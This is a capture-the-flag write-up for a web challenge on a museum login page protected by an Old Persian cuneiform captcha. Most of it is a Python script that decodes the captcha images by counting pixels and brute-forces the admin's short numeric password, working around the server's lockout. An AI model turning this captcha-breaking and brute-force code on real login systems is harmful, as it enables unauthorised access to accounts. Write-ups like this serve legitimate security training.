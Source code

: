 #Old persian cuneiform captcha

**Category:** Web
**Points:** 10

**Description:**

Old Persian cuneiform is a semi-alphabetic cuneiform script that was the primary script for the old persian language. You could get more information on following links, 

1- http://www.ancientscripts.com/oldpersian.html

2- https://en.wikipedia.org/wiki/Old_Persian_cuneiform. 

A web-based collections management for a museum has some extremely valuable information if one has admin user access. 

Site: 'http://ctf.sharif.edu:32455/chal/oldpersian/e800effeaf558f54/'

We found that the "admin" user have a 4-digit password. But they use a captcha made of 10 old persian characters. One has to use the correspondence between symbols and strings to pass theye captcha verification (use "trans.png"). 
Log in as "admin" to find the flag.

the flag is in the fomat: [Your flag is: flagflagflag...] (without braces)


##Solution:

We are given a web page with custom Persian-Captcha. We should BruteForce it, by first we should find a way to decode captcha.
So our tasks are:

1 - Write a script to decode captcha

2 - Send a GET request to /captcha url, save the captcha.image. Decode it and send a POST request to /login/submit url with captcha value in it's data

3 - Iterate between 0001-9999 integers for password value and do 1&2 steps

![Image of main_page]

I used a custom method by mine for decoding captcha's. But I know there should be lot's of other methods using machine-learning & ...
But it's CTF & it's all about time. So i used this method:

I splitted each captcha image to 6 images (cause it contains 6 persian-ancient characters). Convert it to gray-image, Calculated black-bit in each image and
tried to define a algorithm to detect each character.
Some of Character have specific number of black digits like 'E'. I assumed all the iamges that have less that 160 black-digits, are corresponded to 'E' and etc.
And for characters that have close number of black-digits, i calculate black-bit in each half: top,bottom,right,left and tried to define statement that
describe each character.(It's not the best method ---> believe me: i know. but that shit worked for me.)

Here is the code i used:

```python
import os,sys
from PIL import Image
import mechanize
import cookielib
from bs4 import BeautifulSoup
import urllib

base_url = 'http://ctf.sharif.edu:32455/chal/oldpersian/6a18d45a981e0219/'
captcha_link = base_url + 'captcha/'
login_link = base_url + 'login/submit/'

password_from = int(sys.argv[1])
password_to = int(sys.argv[2])

captcha_image_name = 'test.jpg'
alphabet_chars = 'ABCDEFGHIJKLM'
captcha_char_numbers = 6

def get_captcha(br):
    result = br.open(captcha_link)
    img = open(captcha_image_name,'wb')
    img.write(result.read())
    img.close()

def calc_black_pixs(pix_list):

    this_y = len(pix_list)
    this_x = len(pix_list[0])
    result = 0
    for i in pix_list:
        for j in i:
            if j == 0:
                result += 1
    return result

def calc_each_quarter_black_pixels(pix_list):
    result = [[0,0],[0,0]]      # [1_1, 1_2], [2_1, 2_2]
    for y in pix_list:
        y_index = pix_list.index(y)
        for x in y:
            x_index = y.index(x)
            if x == 0:
                result_x = 0
                if x_index > 40:
                    result_x = 1
                result_y = 0
                if y_index > 40:
                    result_y = 1

                result[result_y][result_x] += 1
    return result

def proccess_captcha():
    jpg_image = Image.open(captcha_image_name)
    jpg_tmp = jpg_image.convert('L')
    gray_image = jpg_tmp.point(lambda x: 0 if x<128 else 255, '1')
    mx,my = gray_image.size
    pixels = gray_image.load()

    char_list = []
    for index in range(captcha_char_numbers):
        tmp_char_list = []
        for y in range(my):
            tmp = []
            for x in range(80*index,80*(index+1)):
                this_pix = pixels[x,y]
                tmp.append(this_pix)
            tmp_char_list.append(tmp)
        char_list.append(tmp_char_list)

    result = ''
    for index in range(captcha_char_numbers):
        bp = calc_black_pixs(char_list[index])
        bp_quarters = calc_each_quarter_black_pixels(char_list[index])
        bp_left_sum = (bp_quarters[0][0]+bp_quarters[1][0])
        bp_right_sum = (bp_quarters[0][1]+bp_quarters[1][1])
        bp_top_sum = sum(bp_quarters[0])
        bp_bottom_sum = sum(bp_quarters[1])

        if bp > 700:
            result += 'H'
        elif bp <= 160:
            result += 'E'
        elif bp >= 450 and bp <= 470:
            if bp_top_sum > bp_bottom_sum:
                if bp_bottom_sum < 200:
                    result += 'D'
                else:
                    if bp_left_sum > bp_right_sum:
                        result += 'K'
                    else:
                        result += 'B'
            else:
                if bp_left_sum > bp_right_sum:
                    result += 'K'
                else:
                    result += 'B'
        elif bp >= 540 and bp <= 560:
            if bp_top_sum > bp_bottom_sum:
                if bp_left_sum > bp_right_sum:
                    result += 'L'
                else:
                    result += 'M'
            else:
                result += 'L'
        elif bp > 500 and bp < 520:
            result += 'J'
        elif bp >= 640 and bp < 700:
            result += 'F'
        elif bp >= 520 and bp < 540:
            result += 'I'
        elif bp >= 625 and bp < 640:
            result += 'G'
        elif bp > 430 and bp < 450:
            result += 'K'
        elif bp > 600 and bp < 625:
            result += 'A'
        elif bp > 560 and bp < 600:
            result += 'C'
        else:
            result += '-'
    return result

def send_post(br, password, captcha):
    params = {'username':'admin', 'password':password, 'captcha':captcha}
    data = urllib.urlencode(params)
    response = br.open(login_link, data)
    result = response.read()
    if 'Invalid captcha' in result:
        return False
    if 'Login failed' in result:
        return 'failed'
    if 'You are in penalty time' in result:
        return 'penalty'
    return result

#passlist = range(password_from-1,password_to+1)
import itertools
chars = '0123456789'
passlist = []
res = itertools.permutations(chars,3)
for i in res:
    passlist.append('0'+''.join(i))

for password in passlist:
    state = False
    while not state:
        br = mechanize.Browser()
        br.set_handle_robots(False)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_redirect(True)
        cj = cookielib.LWPCookieJar()
        br.set_cookiejar(cj)
        get_captcha(br)
        this_captcha = proccess_captcha()
        state = send_post(br, password, this_captcha)
        if state == False:
            continue
        else:
            if state == 'failed':
                print '[-] Failed to login with %s'%password
                break
            elif state == 'penalty':
                print '[-] Failed cause of penatly time'
                print password
                raw_input('wait here...')
                break
            else:
                print state
                print '\n[+] Password is %s'%password
                raw_input('got it!\n\n')
```

But the real problem is that after almost 1000 post request, you will be banned for like 2000 seconds and you should wait that time for the next part of brute-force attack.
(Really!!!!. you kidding me.)
Because of this timing i wasn't able to get the flag in right time, And got it after the competition was done. But cheers to all who joined this challenge.

I really enjoyed it and didn't much mention time to other web challenges, CAUSE IT WAS A FUN CHALLENGE.
